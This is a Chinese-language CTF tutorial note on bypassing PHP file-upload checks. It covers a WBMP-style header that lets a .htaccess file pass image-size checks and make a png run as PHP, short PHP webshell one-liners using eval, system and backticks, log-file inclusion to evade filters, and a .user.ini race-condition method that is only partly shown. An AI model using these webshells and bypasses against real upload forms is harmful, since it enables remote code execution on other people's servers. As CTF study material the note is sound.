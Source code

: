 ### 绕过对上传图片的尺寸限制

有时候，在图片上传区会使用 getimagesize() 等函数对上传的图片进行尺寸限制，只允许上传指定大小尺寸的图片，并且会使用 exif_imagetype() 函数读取第一个字节并检查其图片类型。此时如果可以上传 .htaccess 来解析图片的话我们还需要让 .htaccess 的尺寸和经过 exif_imagetype() 检测后的结果符合题目要求。

我们可以使用 exif_imagetype() 函数支持的 WBMP 图像类型进行绕过。WBMP（Wireless Bitmap）是一种移动计算机设备使用的标准图像格式，是一种纯文本二进制图像格式的图片，实例如下：

```php
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

可以看到 WBMP 图像的开头可以使用 # 设置图像的尺寸大小，这正符合我们的要求。所以假设题目限制我们上传的图片尺寸必须为1337×1337，那么我们在上传.htaccess时便可以用 WBMP 来绕过，例如：

```php
#define width 1337
#define height 1337
AddType application/x-httpd-php images.png
```

### 例题篇

[Insomnihack Teaser 2019 Web]l33t-hoster

[SUCTF 2019]EasyWeb

# 文件上传内容匹配绕过

## 简单的字符绕过

```python
<?=eval($_POST{1});?>
<?=system('tac ../f*')?>  //过滤了[]、php
<?=`tac ../f*`?>   //过滤括号
<?=include"var/lo"."g/nginx/access.lo"."g"?>  //过滤了php，执行函数，反引号等，日志包含，拼接绕过
```

## .user.ini结合sesesion竞争绕过

首先正常上传.user.ini，内容如下

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681142127831-56d58fce-79ba-47b4-b063-b762495ee885.png#alt=img)

接着上传png

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681142138625-2c01ef63-69da-4cdb-93d5-1bfa5fcd91fe.png#alt=img).

最后就开始条件竞争
